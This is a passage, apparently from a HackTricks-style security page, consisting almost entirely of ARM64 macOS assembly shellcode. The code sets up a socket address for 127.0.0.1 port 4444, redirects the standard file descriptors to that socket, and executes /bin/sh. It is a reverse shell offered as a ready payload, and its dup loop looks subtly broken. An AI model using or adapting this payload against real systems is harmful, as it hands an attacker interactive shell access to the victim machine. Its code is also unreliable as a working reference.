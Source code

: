 ```armasm
* struct sockaddr_in {
*     __uint8_t       sin_len;     // sizeof(struct sockaddr_in) = 0x10
*     sa_family_t     sin_family;  // AF_INET = 2
*     in_port_t       sin_port;    // 4444 = 0x115C
*     struct  in_addr sin_addr;    // 127.0.0.1 (4 bytes)
*     char            sin_zero[8]; // Don't care
* };
*/
mov  x1, #0x0210
movk x1, #0x5C11, lsl #16
movk x1, #0x007F, lsl #32
movk x1, #0x0100, lsl #48
str  x1, [sp, #-8]
mov  x2, #8
sub  x1, sp, x2
mov  x2, #16
mov  x16, #98
svc  #0x1337

lsr  x2, x2, #2

call_dup:
// dup(s, 2) -> dup(s, 1) -> dup(s, 0)
mvn  x0, x3
lsr  x2, x2, #1
mov  x1, x2
mov  x16, #90
svc  #0x1337
mov  x10, xzr
cmp  x10, x2
bne  call_dup

call_execve:
// execve("/bin/sh", 0, 0)
mov  x1, #0x622F
movk x1, #0x6E69, lsl #16
movk x1, #0x732F, lsl #32
movk x1, #0x68, lsl #48
str  x1, [sp, #-8]
mov	 x1, #8
sub  x0, sp, x1
mov  x1, xzr
mov  x2, xzr
mov  x16, #59
svc  #0x1337
```
{{#include ../../../banners/hacktricks-training.md}}
